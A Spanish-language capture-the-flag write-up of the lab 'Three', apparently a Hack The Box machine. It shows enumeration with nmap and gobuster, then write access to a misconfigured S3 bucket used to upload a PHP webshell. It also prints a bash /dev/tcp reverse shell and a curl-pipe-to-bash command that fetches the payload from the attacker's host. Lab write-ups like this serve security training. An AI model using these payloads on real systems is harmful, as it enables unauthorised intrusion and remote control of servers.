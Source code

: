# Análisis y Explotación del Laboratorio "Three"

## Resumen del Escenario

Este documento detalla el proceso de pentesting realizado en el laboratorio "Three". El escenario se centra en una máquina Linux que utiliza un bucket de AWS S3 mal configurado como almacenamiento para un sitio web Apache. La explotación se basa en abusar de los permisos de escritura de dicho bucket para subir una webshell, obtener ejecución remota de comandos y, finalmente, establecer una shell inversa para comprometer el sistema.

---

## Fase 1: Reconocimiento y Enumeración Inicial

El primer paso en cualquier prueba de penetración es identificar los puntos de entrada disponibles. Para ello, se realiza un escaneo de puertos utilizando Nmap.

### 1.1 Escaneo de Puertos con Nmap

Se utiliza Nmap para escanear la máquina objetivo e identificar puertos abiertos, así como los servicios y versiones que se ejecutan en ellos.

**Comando:**
```bash
sudo nmap -sV 10.129.227.248
```

**Resultados:**
El escaneo revela dos puertos abiertos de interés:
* **22/tcp (SSH):** OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
* **80/tcp (HTTP):** Apache httpd 2.4.29

El servicio HTTP en el puerto 80 es el vector de ataque más prometedor.

---

## Fase 2: Enumeración Web y de Dominio

Con un servidor web identificado, el siguiente paso es investigar la aplicación web y buscar información útil.

### 2.1 Análisis del Sitio Web

Al acceder al sitio en el puerto 80, se encuentra una página estática. La inspección del código fuente revela dos pistas importantes:
* Un formulario de contacto que envía datos a `/action_page.php`, lo que confirma que el backend utiliza **PHP**.
* Una dirección de correo electrónico, `mail@thetoppers.htb`, que nos proporciona un nombre de dominio: **thetoppers.htb**.

### 2.2 Configuración del Archivo `/etc/hosts`

Para que nuestro sistema pueda resolver el dominio `thetoppers.htb`, es necesario añadir una entrada en el archivo `/etc/hosts`.

**Comando:**
```bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

### 2.3 Enumeración de Subdominios (Virtual Hosts)

Se utiliza la herramienta `gobuster` para buscar subdominios asociados al dominio principal. Esto se hace mediante un ataque de fuerza bruta de "virtual hosts".

**Comando:**
```bash
gobuster vhost -w /usr/share/wordlists/seclists/subdomains-top1million-5000.txt -u [http://thetoppers.htb](http://thetoppers.htb)
```

**Resultado:**
`gobuster` encuentra un subdominio: `s3.thetoppers.htb`. Este nombre sugiere fuertemente una relación con el servicio de almacenamiento S3 de AWS.

Se añade este nuevo subdominio al archivo `/etc/hosts`:
```bash
echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

---

## Fase 3: Interacción y Análisis del S3 Bucket

El descubrimiento del subdominio `s3` nos lleva a investigar la posible existencia de un bucket de almacenamiento mal configurado.

### 3.1 Configuración de `awscli`

Para interactuar con servicios de AWS, se utiliza la herramienta `awscli`. Se configura con credenciales arbitrarias, ya que algunas configuraciones inseguras no validan la autenticación.

**Comando de configuración:**
```bash
aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

### 3.2 Listado del Contenido del Bucket

Se utiliza `awscli` para listar el contenido del bucket. Es crucial especificar el endpoint para apuntar a nuestro objetivo en lugar de a los servidores reales de AWS.

**Comando para listar buckets:**
```bash
aws --endpoint=[http://s3.thetoppers.htb](http://s3.thetoppers.htb) s3 ls
```

**Comando para listar objetos dentro del bucket:**
```bash
aws --endpoint=[http://s3.thetoppers.htb](http://s3.thetoppers.htb) s3 ls s3://thetoppers.htb
```

**Resultado:**
Se listan los archivos `index.php` y `.htaccess`, y el directorio `images/`. Esto confirma que el bucket contiene los archivos del sitio web y que el servidor Apache lo está utilizando como su directorio raíz.

---

## Fase 4: Explotación y Obtención de Acceso

El hecho de que podamos listar el contenido y que el bucket sirva como webroot nos lleva a probar si también tenemos permisos de escritura.

### 4.1 Creación y Subida de la Webshell

Se crea una webshell simple en PHP que ejecuta comandos pasados a través de un parámetro GET en la URL.

**Payload de la Webshell:**
```php
<?php system($_GET["cmd"]); ?>
```

**Comandos para crear y subir la webshell:**
```bash
# Crear el archivo shell.php con el payload
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Subir el archivo al bucket S3
aws --endpoint=[http://s3.thetoppers.htb](http://s3.thetoppers.htb) s3 cp shell.php s3://thetoppers.htb
```

### 4.2 Verificación de Ejecución Remota de Comandos (RCE)

Se accede a la webshell a través del navegador para confirmar que tenemos ejecución de comandos en el servidor.

**URL de prueba:**
`http://thetoppers.htb/shell.php?cmd=id`

La respuesta del servidor (`uid=33(www-data)...`) confirma el RCE exitoso.

### 4.3 Escalada a Shell Inversa

Una webshell es limitada. El objetivo final es obtener una shell interactiva y estable.

**Paso 1: Iniciar un oyente en la máquina atacante**
Se utiliza `netcat` para abrir un puerto y esperar la conexión entrante.
```bash
nc -nvlp 1337
```

**Paso 2: Crear el payload de la shell inversa**
Se crea un script `shell.sh` en la máquina atacante que iniciará la conexión de vuelta.
```bash
#!/bin/bash
bash -i >& /dev/tcp/<TU_DIRECCION_IP>/1337 0>&1
```

**Paso 3: Levantar un servidor web para alojar el payload**
Desde el directorio que contiene `shell.sh`, se inicia un servidor web simple con Python.
```bash
python3 -m http.server 8000
```

**Paso 4: Activar el payload desde la webshell**
Se usa la webshell para que la máquina víctima descargue y ejecute el script `shell.sh`.
`http://thetoppers.htb/shell.php?cmd=curl%20<TU_DIRECCION_IP>:8000/shell.sh%20|%20bash`

Al ejecutar este comando, se recibe una conexión en el oyente de netcat, proporcionando una shell interactiva en la máquina víctima.

---

## Fase 5: Post-Explotación y Captura de la Bandera

Con una shell en el sistema, el paso final es encontrar la bandera.

**Comando:**
```bash
cat /var/www/flag.txt
```

---

## Conceptos Teóricos Clave

* **AWS S3 Buckets:** Son contenedores de almacenamiento en la nube de Amazon. Su seguridad depende enteramente de la correcta configuración de permisos. Una mala configuración puede exponer los archivos al público o, como en este caso, permitir la escritura no autorizada, lo que representa un grave riesgo de seguridad.
* **Webshell:** Es un script malicioso (comúnmente en PHP, ASP, etc.) que se sube a un servidor web para obtener ejecución remota de comandos. Funciona como una puerta trasera, permitiendo al atacante controlar el servidor a través del navegador.
* **Shell Inversa (Reverse Shell):** Es una técnica en la que la máquina víctima inicia una conexión de vuelta hacia el atacante. Esto es extremadamente útil para evadir firewalls, que a menudo bloquean conexiones entrantes pero permiten las salientes. Proporciona una sesión de terminal interactiva y estable, superior a una webshell.
